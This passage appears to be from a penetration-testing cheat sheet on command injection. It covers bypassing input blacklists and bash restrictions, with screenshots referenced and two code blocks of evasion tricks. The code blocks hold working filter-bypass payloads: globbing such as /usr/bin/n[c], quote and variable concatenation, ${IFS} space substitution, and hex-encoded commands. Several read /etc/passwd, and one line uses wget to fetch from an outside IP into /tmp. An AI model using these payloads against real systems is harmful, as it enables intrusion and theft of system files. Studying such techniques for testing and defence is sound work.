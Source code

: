To get around the above blacklist try a pipe command![](https://gblobscdn.gitbook.com/assets%2F-LSy0aAo8OKT4I-Ahftv%2F-M12F5cQmW3\_3ruCt\_CX%2F-M12HKHAwPjcmGMQNQCh%2Fimage.png?alt=media\&token=2668b338-0437-4206-8f51-29ae67bf1f51)

### More sanitisation of user input <a href="#more-sanitisation-of-user-input" id="more-sanitisation-of-user-input"></a>

![](https://gblobscdn.gitbook.com/assets%2F-LSy0aAo8OKT4I-Ahftv%2F-M12F5cQmW3\_3ruCt\_CX%2F-M12Kdu1\_RNT2R1-bzNw%2Fimage.png?alt=media\&token=403e77fd-a942-45b8-8749-bb3e57ed9fa6)

Highlighted above is a mistake. The pipe symbol AND a space are filtered allowing the below command to work![](https://gblobscdn.gitbook.com/assets%2F-LSy0aAo8OKT4I-Ahftv%2F-M12F5cQmW3\_3ruCt\_CX%2F-M12HzxOCUJ3e-uTYo--%2Fimage.png?alt=media\&token=47c11a04-71dc-480f-aba8-fcc1f5a34a75)

### Proper sanitisation of user input <a href="#proper-sanitisation-of-user-input" id="proper-sanitisation-of-user-input"></a>

![](https://gblobscdn.gitbook.com/assets%2F-LSy0aAo8OKT4I-Ahftv%2F-M12F5cQmW3\_3ruCt\_CX%2F-M12L5l2hvvQwAZ2PxQz%2Fimage.png?alt=media\&token=afa58970-e2fd-459e-84e9-a2107382937b)

## Bypass Bash Restrictions <a href="#bypass-bash-restrictions" id="bypass-bash-restrictions"></a>

### Bypass Paths and forbidden commands <a href="#bypass-paths-and-forbidden-commands" id="bypass-paths-and-forbidden-commands"></a>

```
#Bash substitudes * fror any possible chat that refers to a binary in the folder/usr/bin/p?ng #This equals /usr/bin/ping​#Bash substitudes * fror any compatible combination with a binary in the folder/usr/bin/who*mi #This equals /usr/bin/whoami​#[chars]/usr/bin/n[c] #/usr/bin/nc​#Concatenation'p'i'n'g #Equals to call ping"w"h"o"a"m"i\u\n\a\m\e \-\a​#Uninitialized variables: A uninitialized variable equals to null (nothing)p${u}i${u}n${u}g #Equals to ping, use {} to put the uninitialized variables between valid characterescat$u /etc$u/passwd$u #Use the uninitilized variable without {} before any symbol​#Fake commandsp$(u)i$(u)n$(u)g #Equals to ping but 3 errors trying to exeute "u" are shownw`u`h`u`o`u`a`u`m`u`i #Equals to whoami but 5 errors trying to exeute "u" are shown​#Concating strings using history!-1 #This will be substitude by the last command executed, and !-2 by the penultimate commandmi #This will throw an errorwhoa #This will throw an error!-1!-2 #This will execute whoami​
```

### Bypass forbidden spaces <a href="#bypass-forbidden-spaces" id="bypass-forbidden-spaces"></a>

```
##{form}{cat,lol.txt} #This will cat the file​##IFS - Internal field separator, change " " for any othe character ("]" in this case)#IFS withut modificationscat${IFS}/etc/passwdcat$IFS/etc/passwd​#Put the command line in a variable and then execute itIFS=];b=wget]10.10.14.21:53/lol]-P]/tmp;$bIFS=];b=cat]/etc/passwd;$b #Using 2 ";"IFS=,;`cat<<<cat,/etc/passwd` #Using cat twice#Other way, just change each space for ${IFS}echo${IFS}test​##Using hex formatX=$'cat\x20/etc/passwd'&&$X​##New linesp\i\n\g #This 4 lines will equal to ping​##Undefined variables and !$u $u#This will be saved in the history and can be used as a space, please notice that the $u variable is undefineduname!-1\-a #This equals to uname -a
```
